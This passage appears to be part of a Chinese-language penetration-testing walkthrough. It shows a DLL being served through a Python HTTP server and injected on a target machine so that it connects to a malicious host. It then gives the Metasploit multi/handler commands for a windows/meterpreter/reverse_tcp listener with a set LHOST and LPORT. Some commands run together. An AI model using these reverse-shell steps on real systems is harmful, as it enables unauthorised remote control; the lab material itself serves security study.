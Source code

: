 （2）使用 python 命令 (python3 -m http.server 8008) 构建简单的服务，在目标机器上使用浏览器下载至桌面。在目标机器上注入此 dll 后，将与恶意主机建立连接。效果如下：

[![](assets/1701606587-396aabd6b6ec0eb1b6f035db2494ff9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162639-07a28fb0-8523-1.png)

（3）接下来将在 Kali 启动脚本开启监听，为后续操作建立通道。

执行如下命令：

```bash
msfconsole:开启 msf 框架；use exploit/multi/handler：生成处理器；set payload windows/meterpreter/reverse_tcp：指定监听的地址与端口
```

[![](assets/1701606587-3072645972d1298cdfb9ba867993814a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162710-1a43e3b2-8523-1.png)

当 payload 在目标系统上执行时，它将启动一个 TCP 回连攻击者的机器。查看参数要求并运行命令：

```bash
set LHOST 192.168.230.155set LPORT 88run
```
